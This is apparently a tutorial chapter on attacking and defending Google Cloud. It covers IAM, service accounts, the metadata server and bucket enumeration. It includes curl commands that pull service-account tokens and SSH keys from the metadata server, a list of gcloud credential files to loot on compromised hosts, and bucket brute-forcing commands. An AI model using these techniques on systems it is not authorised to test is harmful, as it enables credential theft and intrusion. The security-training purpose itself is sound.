








**Level:** Advanced · **Track:** Cloud Security · **Read time:** 320 min

This is Chapter 5 of the Cloud Security notebook. The previous four chapters walked through the shared-responsibility model, hands-on AWS recon (IAM, S3, IMDS), the AWS/multi-cloud tooling stack (Pacu, ScoutSuite, Prowler), and then the Microsoft identity plane in Entra ID. This chapter completes the "big three" by moving to **Google Cloud Platform (GCP)**. If Azure's centre of gravity is identity and AWS's is IAM-policy sprawl, GCP's defining feature is a strict, tree-shaped **resource hierarchy** married to a small, elegant IAM model -- and a service-account system so central that almost every real GCP privilege escalation is, at heart, "become a different service account."

The single most important idea to carry through this chapter: in GCP, **the service account is the unit of privilege**, and the questions "which service account am I?", "which service accounts can I *become*?", and "what can that service account do?" drive every enumeration and escalation decision you will make. Get comfortable with that lens and GCP stops feeling like a pile of 200 APIs and starts feeling like a graph you can walk.

Everything here is for projects, folders and organizations you own or are explicitly authorised in writing to assess. Google's Cloud Platform Acceptable Use policy and Vulnerability Reward Program permit testing of your own resources without pre-authorisation, but enumerating, spraying, or pulling tokens against a project you do not own is unauthorised access and a crime in essentially every jurisdiction. Practise on your own free-tier project, on **GCPGoat**, on **thunder-ctf**, or on the deliberately-vulnerable ranges named in the final part.

---

## Part 1: The GCP Resource Hierarchy -- Why GCP Is a Tree

Before a single `gcloud` command, get the model straight, because in GCP the *shape of the org* determines where permissions come from and where they flow. Unlike AWS (a flat set of accounts loosely tied by Organizations) or Azure (management groups over subscriptions), GCP enforces a strict tree, and **IAM policy is inherited down that tree**.



The nodes, top to bottom:

- **Organization** -- the root. It exists only if the tenant has **Google Workspace** or **Cloud Identity** attached to a verified DNS domain (`example.com`). Its numeric ID is an **Organization ID** (e.g. `organizations/34739118321`). Many small GCP users have *no* organization at all -- just standalone projects owned by a personal Gmail -- and that materially changes the attack surface (no org-level policy, no central logging sink, no folder inheritance).
- **Folder** -- optional grouping nodes (e.g. by department or environment). Folders can nest. IAM bindings set on a folder are inherited by every project and resource beneath it.
- **Project** -- the primary unit of billing, API enablement, quota, and isolation. Every resource lives in exactly one project. A project has three identifiers you must not confuse: a human-chosen **Project ID** (globally unique, e.g. `eng-prod-1234`), a **Project Number** (a globally unique integer assigned by Google, e.g. `849700564632`), and a mutable **Display Name**. APIs sometimes want the ID, sometimes the number -- the default service-account email uses the *number*, IAM conditions and some logs use the ID.
- **Resource** -- the leaves: Compute Engine (GCE) VMs, Cloud Storage (GCS) buckets, BigQuery datasets, Cloud SQL instances, Cloud Functions, GKE clusters, Pub/Sub topics, and so on.

**Why this matters for you as an attacker:** IAM is *additive and inherited*. A binding that grants `roles/viewer` at the **organization** node silently makes the grantee a Viewer on **every project in the org**. The effective permissions on a resource are the union of bindings at the resource, its project, its folder(s), and the org. So after landing on any credential your enumeration must check policy at *every level of the tree*, not just the current project -- a low-priv-looking project role can hide a fat org-level binding. **Blue-team corollary:** an over-broad org-level grant is the most damaging misconfiguration in GCP precisely because inheritance makes its blast radius the entire estate.

### The two identity systems (the AWS-vs-Azure equivalent trap)

GCP has **two distinct identity systems** that both show up in IAM policies and constantly get conflated:

- **Cloud IAM** -- governs *access to GCP resources* via **members**, **roles**, and **bindings**. Members can be Google accounts, service accounts, groups, or domains.
- **Google Workspace / Cloud Identity** -- the *directory* of human users and groups (`alice@example.com`), with its own admin console, its own Admin SDK API (`admin.googleapis.com`), and its own super-admin role that is **completely separate** from GCP's Organization Administrator. A Workspace Super Admin owns the humans; a GCP Org Admin owns the cloud resources. The bridge between them -- **domain-wide delegation** -- is one of the nastiest escalation paths in the whole ecosystem, covered in Part 11.

Keep these straight the way the Azure chapter kept Entra roles vs Azure RBAC straight: the first question after any compromise is "which system does this identity live in, and which token audience do I hold?"

---

## Part 2: The IAM Model -- Members, Roles, Bindings, Policies

GCP IAM is deliberately smaller and more consistent than AWS IAM. There are exactly four moving parts.

**Member (principal)** -- *who*. Prefixed by type:

| Member prefix | Meaning | Example |
|---|---|---|
| `user:` | A specific Google account (human) | `user:alice@example.com` |
| `serviceAccount:` | A service account | `serviceAccount:sa@proj.iam.gserviceaccount.com` |
| `group:` | A Google group | `group:devs@example.com` |
| `domain:` | Every user in a Workspace domain | `domain:example.com` |
| `allAuthenticatedUsers` | *Any* Google-authenticated identity, anywhere | (public-ish) |
| `allUsers` | Literally anyone on the internet, no auth | (fully public) |

The last two are the source of countless breaches. A GCS bucket or a Cloud Function with `allUsers` bound to a read role is exposed to the entire internet; `allAuthenticatedUsers` means any random Google account (including throwaway Gmail) can read it. **Bug-bounty angle:** hunting for `allUsers`/`allAuthenticatedUsers` on storage, Cloud Run, Cloud Functions and Pub/Sub is one of the highest-yield GCP recon activities on public programs.

**Role** -- *what*. A named bundle of granular permissions (each permission is `service.resource.verb`, e.g. `storage.objects.get`, `compute.instances.setMetadata`, `iam.serviceAccounts.getAccessToken`). Three tiers:

- **Basic (primitive) roles**: `roles/owner`, `roles/editor`, `roles/viewer`. Enormous, legacy, and dangerous. `roles/editor` alone grants write on ~almost every service and is a frequent escalation launchpad. Finding a human or SA with a basic role at project/folder/org level is a red flag every audit should raise.
- **Predefined roles**: fine-grained, Google-curated (`roles/storage.admin`, `roles/compute.instanceAdmin.v1`, `roles/iam.serviceAccountTokenCreator`). Hundreds exist.
- **Custom roles**: org- or project-defined bundles of hand-picked permissions.

**Binding** -- glue: `{ role, members[], condition? }`. A binding says "these members have this role (optionally only when this IAM Condition is true)."

**Policy** -- the full set of bindings attached to one resource node (org, folder, project, or an individual resource that supports resource-level IAM like a bucket or a KMS key).



The one non-obvious rule that governs every escalation in this chapter: **IAM is a pure allow-model with no explicit deny by default** (Deny policies exist as a separate, newer, rarely-deployed feature). Effective access is the *union* of every binding that mentions you (directly, via a group, via a domain, or via inheritance) across the entire hierarchy. There is no AWS-style implicit "explicit deny wins." That makes GCP IAM easy to reason about and easy to accidentally over-grant.

---

## Part 3: Service Accounts -- The Unit of Privilege

This is the heart of GCP security. A **service account (SA)** is a special non-human identity that both *is a resource* (it lives in a project, it has an email like `name@project-id.iam.gserviceaccount.com`) *and is a principal* (it appears as a `serviceAccount:` member in bindings). Workloads run *as* a service account; humans and workloads can *act as* service accounts. Almost every GCP privilege escalation reduces to: **"I can cause code to run as, or mint a token for, a more-privileged service account."**

### Types of service account

| Type | Email pattern | Notes |
|---|---|---|
| **User-managed SA** | `my-sa@proj-id.iam.gserviceaccount.com` | You create these; the ones you attach to VMs, Functions, GKE workloads. |
| **Default SA (Compute)** | `PROJECT_NUMBER-compute@developer.gserviceaccount.com` | Auto-created, historically granted **`roles/editor`** on the whole project. A goldmine. |
| **Default SA (App Engine)** | `PROJECT_ID@appspot.gserviceaccount.com` | Similar broad default. |
| **Google-managed service agents** | `service-PROJECT_NUMBER@gcp-sa-*.iam.gserviceaccount.com` | Google-controlled; you rarely touch these directly. |

The **default Compute Engine service account** deserves special attention: for years GCP auto-attached it to every new VM *and* granted it `roles/editor` project-wide. That means: pop a shell on almost any older GCE VM, pull the metadata token, and you frequently hold Editor over the entire project. Google now recommends disabling this and newer orgs constrain it via org policy (`iam.automaticIamGrantsForDefaultServiceAccounts`), but you will meet the legacy configuration constantly.

### The three ways to authenticate as a service account



1. **Static SA keys** -- `gcloud iam service-accounts keys create key.json --iam-account=SA`. Produces a downloadable JSON containing an RSA private key. Long-lived (no expiry unless you rotate), portable, and therefore the **#1 credential leak** in GCP -- these land in Git repos, CI logs, Docker images and laptops constantly. The permission to create them is `iam.serviceAccountKeys.create`. **Blue team:** most orgs should disable key creation entirely via org policy (`iam.disableServiceAccountKeyCreation`) and use Workload Identity Federation instead.
2. **Impersonation** -- mint a *short-lived* OAuth token or signed JWT for the SA without any static key, using `iam.serviceAccounts.getAccessToken`, `generateAccessToken`, `signJwt`, or `signBlob`. The predefined role that grants this is `roles/iam.serviceAccountTokenCreator`. This is the cleanest escalation primitive: if you can impersonate a more-privileged SA, you inherit its power with a token that expires in an hour and leaves a cleaner trail than a stolen key. `gcloud ... --impersonate-service-account=SA` uses this under the hood.
3. **ActAs / attach** -- the `iam.serviceAccounts.actAs` permission lets you *attach* a service account to a resource you create or modify (a VM, a Cloud Function, a Cloud Run service, a Dataflow job). You then run arbitrary code inside that resource, which runs *as* the attached SA and can read its token from the metadata server. `actAs` is the quiet, load-bearing permission behind a huge fraction of GCP privesc: **any** compute-creation permission is only dangerous because it pairs with `actAs` on a juicy SA.

Hold onto these three doors -- Parts 9 and 10 walk through the concrete escalation recipes that use each.

---

## Part 4: The Metadata Server -- GCP's IMDS

Every Compute Engine VM (and GKE node, Cloud Run instance, Cloud Function, App Engine instance) can reach a link-local **metadata server** at `169.254.169.254` / `metadata.google.internal`. This is GCP's analogue to AWS's IMDS, and it is where a workload obtains the OAuth access token of its attached service account -- which makes it the single most valuable endpoint to hit after landing SSRF or RCE on a GCP workload.

Two things differ sharply from AWS and matter operationally:

- **Mandatory header.** Every metadata request must carry `Metadata-Flavor: Google`. Requests without it are refused. This exists specifically to blunt naive SSRF -- a plain `?url=http://169.254.169.254/...` won't return anything unless the vulnerable server also forwards a custom header. **Bug-bounty relevance:** GCP SSRF-to-token is therefore harder than AWS IMDSv1 but very much alive where the app lets you control request headers, or via full-request-forgery / gopher-style tricks.
- **No IMDSv2-style session handshake**, but the header requirement plus the newer `X-Google-Metadata-Request: True` expectation and the ability to disable legacy `/0.1/` and `/v1beta1/` endpoints via instance metadata play a similar hardening role.

### The endpoints that matter

```bash
# Base header required on EVERY call:
#   -H "Metadata-Flavor: Google"

# List the SA(s) attached to this instance
curl -s -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/"

# The OAuth2 access token of the default SA  <-- the crown jewel
curl -s -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token"
# => {"access_token":"ya29.c.Kp8B...","expires_in":3376,"token_type":"Bearer"}

# The scopes granted to that token (this GATES what the token can do)
curl -s -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/scopes"

# The SA's email (identity)
curl -s -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/email"

# Project metadata (project id, number, and -- critically -- SSH keys & startup scripts)
curl -s -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/project/project-id"
curl -s -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/project/attributes/ssh-keys"

# An identity token (signed JWT) with a chosen audience -- useful against IAP / Cloud Run
curl -s -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/identity?audience=https://example.com"
```

The token you pull is an **OAuth2 access token** -- a `ya29.` opaque string. You use it as a bearer token against any Google API:

```bash
TOKEN=$(curl -s -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token" \
  | python3 -c "import sys,json;print(json.load(sys.stdin)['access_token'])")

# Use it directly against an API -- e.g. list buckets in this project:
PROJECT=$(curl -s -H 'Metadata-Flavor: Google' \
  http://169.254.169.254/computeMetadata/v1/project/project-id)
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://storage.googleapis.com/storage/v1/b?project=$PROJECT"
```

### Scopes: the gotcha that stops beginners cold

Unlike AWS, a GCP access token from the metadata server is limited by **OAuth scopes** that were set when the VM was created, *in addition to* the SA's IAM roles. Effective power = **IAM roles n token scopes**. A VM whose SA is Project Editor but whose token scope is only `https://www.googleapis.com/auth/devstorage.read_only` can read storage but cannot, say, create a new VM -- even though the SA's IAM would allow it. The classic legacy footgun is the scope `https://www.googleapis.com/auth/cloud-platform`, which means "all APIs," and pairing it with the Editor default SA is what makes so many VMs a full-project compromise. **Always pull `/scopes` before concluding a token is weak** -- many an engagement stalls because someone assumed a token was low-priv without checking that it carried `cloud-platform`.

---

## Part 5: OAuth, Tokens, and How gcloud Authenticates

To enumerate confidently you must know what a credential actually *is* in GCP. There are four token/credential shapes you will encounter:

| Credential | Looks like | Lifetime | Where you find it |
|---|---|---|---|
| **OAuth2 access token** | `ya29.c.b0Aa...` (opaque `ya29.` prefix) | ~1 hour | Metadata server, `gcloud auth print-access-token`, impersonation output |
| **OIDC / identity token** | JWT (`eyJ...`) | ~1 hour | `gcloud auth print-identity-token`, metadata `identity` endpoint |
| **SA key file** | JSON with `private_key`, `client_email` | Long-lived | Repos, CI, disks -- the leak magnet |
| **User refresh token** | stored in `~/.config/gcloud/` | Long-lived | A developer's laptop / `gcloud` config dir |

**`gcloud`'s credential store** lives at `~/.config/gcloud/` (Linux/mac) or `%APPDATA%\gcloud\` (Windows). The files worth stealing on a compromised dev box:

- `credentials.db` / `access_tokens.db` -- SQLite databases holding OAuth refresh tokens for logged-in *human* accounts. A refresh token is long-lived and lets you mint fresh access tokens indefinitely until revoked -- effectively persistent access as that user.
- `legacy_credentials/<account>/adc.json` -- Application Default Credentials.
- `application_default_credentials.json` -- ADC used by client libraries.
- `active_config` / `configurations/` -- which project/account is active.

**Red team usage:** on any compromised developer or CI host, `~/.config/gcloud/` is a priority loot target equivalent to `.aws/credentials` on an AWS box or a browser cookie jar for SaaS. **Blue team:** treat these files as secrets, and watch for their exfiltration; also prefer short-lived Workforce/Workload Identity Federation over long-lived stored refresh tokens.

**Application Default Credentials (ADC)** is the resolution order client libraries and `gcloud` use to find *a* credential automatically:



Understanding this chain tells you *where to look* for credentials on a host and *what identity your tooling will silently use* -- a frequent source of "why am I getting permission denied / why did this run as the wrong SA?" confusion.

---

## Part 6: Tooling From Scratch -- gcloud, gsutil, bq

The **Google Cloud CLI (`gcloud`)** is the primary interface for everything in this chapter. Teach-from-scratch, because most enumeration commands below assume it.

**What it is:** Google's official cross-platform CLI, distributed in the *Cloud SDK* bundle alongside `gsutil` (Cloud Storage) and `bq` (BigQuery). It wraps the REST APIs, handles OAuth, and manages named *configurations* (account + project + region sets).

**Install on Kali/Debian:**

```bash
# Add Google's apt repo and key
echo "deb [signed-by=/usr/share/keyrings/cloud.google.gpg] https://packages.cloud.google.com/apt cloud-sdk main" \
  | sudo tee /etc/apt/sources.list.d/google-cloud-sdk.list
curl https://packages.cloud.google.com/apt/doc/apt-key.gpg \
  | sudo gpg --dearmor -o /usr/share/keyrings/cloud.google.gpg
sudo apt-get update && sudo apt-get install -y google-cloud-cli

# Verify
gcloud version
```

**Authenticate** in the three ways you will actually use:

```bash
# 1) As a human (opens a browser / prints a URL for headless)
gcloud auth login
gcloud auth login --no-launch-browser      # headless / remote box

# 2) As a service account from a stolen/legit key JSON
gcloud auth activate-service-account --key-file=key.json

# 3) Set application-default creds (what SDKs read)
gcloud auth application-default login
```

**Core structure** -- `gcloud GROUP SUBGROUP COMMAND --flags`:

```bash
gcloud config list                       # current account, project, region
gcloud config set project eng-prod-1234  # pin a project
gcloud projects list                      # projects you can see
gcloud services list --enabled            # which APIs are on in this project
```

**Flags every enumerator leans on:**

| Flag | Effect |
|---|---|
| `--project=ID` | Run against a specific project without changing config |
| `--impersonate-service-account=SA` | Do this call *as* an SA you can impersonate (uses `getAccessToken`) |
| `--format=json` / `--format="value(field)"` | Machine-readable / extract one field for scripting |
| `--filter="EXPR"` | Server- or client-side filter (e.g. `--filter="bindings.members:allUsers"`) |
| `--flatten="bindings[].members"` | Explode nested arrays so you can grep members |
| `--verbosity=debug` | Show the raw API calls (great for learning the REST surface) |
| `--configuration=NAME` | Switch between saved account/project sets |

`gsutil` (`gsutil ls`, `gsutil cp`, `gsutil iam get`) is the Storage swiss-army knife; `bq` (`bq ls`, `bq query`) is the BigQuery one. Newer bundles fold storage into `gcloud storage`, but `gsutil` is still ubiquitous and every writeup uses it, so learn both.

**A note on the raw API when `gcloud` won't cooperate:** every `gcloud` command is a REST call to `*.googleapis.com`. When you only hold a raw `ya29.` token (e.g. pulled from metadata) and don't want to configure `gcloud`, hit the APIs directly with `curl -H "Authorization: Bearer $TOKEN"`. Knowing both paths means a stripped VM with only `curl` is never a dead end.

---

## Part 7: Unauthenticated & External Enumeration

Plenty of GCP recon needs **no credentials at all** -- it's the GCP equivalent of hunting open S3 buckets, and it's the bread-and-butter of bug-bounty cloud recon.

### Cloud Storage bucket discovery

GCS buckets share a global namespace and answer on predictable hostnames:

- `https://storage.googleapis.com/BUCKET/OBJECT`
- `https://BUCKET.storage.googleapis.com/OBJECT`

Enumerate likely bucket names from the target's brand (`acme`, `acme-prod`, `acme-backups`, `acme-assets`, `acme-terraform-state`, `acme-dev`). Anonymous listing works when the bucket binds `allUsers`/`allAuthenticatedUsers`:

```bash
# Anonymous list attempt (no creds). 200 = readable, 403 = exists but locked, 404 = no such bucket.
curl -s -o /dev/null -w "%{http_code}\n" \
  "https://storage.googleapis.com/acme-prod-backups"

# JSON API listing of objects, anonymous:
curl -s "https://storage.googleapis.com/storage/v1/b/acme-prod-backups/o" | head

# With gsutil, unauthenticated:
gsutil ls gs://acme-prod-backups
```

The three status codes are your map: **404** = the name is free (or truly nonexistent), **403** = the bucket *exists* but you lack access (valuable intel -- the name is taken and possibly a real target for other paths), **200** = jackpot, listable. Tools that industrialise this: **GCPBucketBrute** (Rhino Security) for permuting and probing bucket names including read/write/ACL checks, and generic wordlist brute-forcers.

```bash
# GCPBucketBrute -- permutes and checks a keyword, works unauthenticated
python3 gcpbucketbrute.py -k acme -u   # -u = unauthenticated mode
```

### Other externally-observable surfaces

- **Firebase / firestore** databases (`https://PROJECT.firebaseio.com/.json`) -- legacy Firebase RTDB with open read rules leaks entire app databases; a perennial bounty finding.
